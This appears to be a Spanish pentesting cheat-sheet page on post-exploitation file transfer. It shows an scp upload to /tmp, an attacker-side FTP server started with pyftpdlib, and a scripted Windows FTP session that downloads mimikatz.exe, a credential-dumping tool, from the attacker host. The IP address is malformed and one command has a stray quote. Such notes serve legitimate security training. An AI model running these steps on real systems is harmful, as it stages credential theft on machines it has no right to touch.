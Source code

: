 ```yaml
---
layout: article
title: Pentesting - Post-explotación
aside:
  toc: true
sidebar:
  nav: side
header:
  theme: dark
  background: black
---
```


<h2>Transferencia de información</h2>

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">SSH</div>
</div>

~~~bash
scp <binario> <user>@<ip>:/tmp
~~~

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">FTP</div>
</div>

Levantar un servidor FTP en la máquina atacante:
~~~bash
pip3 install pyftpdlib ; python3 -m pyftpdlib -p 21
~~~

Guardar comandos FTP en un fichero dentro del sistema Windows:

~~~bash
echo open 192.168.150 21 > ftp.txt
echo USER anonymous >> ftp.txt
echo anonymous >> ftp.txt
echo bin >> ftp.txt
echo GET mimikatz.exe >> ftp.txt
echo bye >> ftp.txt
~~~

Ejecutar comandos ftp para descargar el binario
~~~cmd
ftp -n -v -s:ftp.txt"
~~~